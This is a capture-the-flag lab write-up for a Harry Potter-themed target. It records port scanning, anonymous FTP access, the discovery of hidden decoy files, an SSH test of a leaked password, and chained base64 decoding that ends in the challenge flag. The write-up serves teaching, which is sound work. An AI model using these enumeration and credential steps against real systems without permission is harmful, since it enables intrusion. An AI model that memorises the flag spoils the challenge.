

# Yer a Wizard, Harry! Come with me to Hogwarts

## Techniques used

- Anonymous FTP enumeration
- Hidden file/directory discovery
- Credential testing via SSH
- Base64 decoding

## Tools used

- nmap
- lftp
- ssh
- base64
- OpenVPN

## Commands and output

### 1. Port scan

```bash
$ nmap -Pn -p- --min-rate 2000 -T4 10.10.0.46
```

```text
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
```

### 2. Anonymous FTP login

```bash
$ lftp anonymous:anonymous@10.10.0.46
```

```text
230 Login successful.
```

### 3. Root directory listing

```bash
$ ls -a
```

```text
.
..
...
.hidden
```

The `...` entry is not a standard directory listing artefact

### 4. Reading the decoy file

```bash
$ cat .hidden
```

```text
I swear that my password is Il0veTheMalefoys, trust me, I'm Hagrid, I never lie!
```

### 5. Testing the decoy credential over SSH

```bash
$ ssh hagrid@10.10.0.46
Password: Il0veTheMalefoys
```

```text
Access denied
```

Confirms `.hidden` was a decoy

### 6. Exploring the disguised `...` directory

```bash
$ cd ...
$ ls -a
$ cat .reallyHidden
```

```text
VWxaQ1NtVjZRblZOTVRseVdWVTFabUpxVGpKTk1VcG1ZVWRHVjAweE9IcGlha0pXVDFWb1prNVVRa1JUZWtvNVEyYzlQUT09
```

### 7. Base64 decoding (chained)

```bash
$ echo "VWxaQ1NtVjZRblZOTVRseVdWVTFabUpxVGpKTk1VcG1ZVWRHVjAweE9IcGlha0pXVDFWb1prNVVRa1JUZWtvNVEyYzlQUT09" | base64 -d
```

```text
UlZCSmV6QnVNMTlyWVU1ZmJqTjJNMUpmYUdGV00xOHpiakJWT1VoZk5UQkRTeko5Q2c9PQ==
```

```bash
$ echo "UlZCSmV6QnVNMTlyWVU1ZmJqTjJNMUpmYUdGV00xOHpiakJWT1VoZk5UQkRTeko5Q2c9PQ==" | base64 -d
```

Value decoded repeatedly until reaching a final plaintext value.

## Evidence

- Flag: `EPI{0n3_kaN_n3v3R_haV3_3n0U9H_50CK2}`

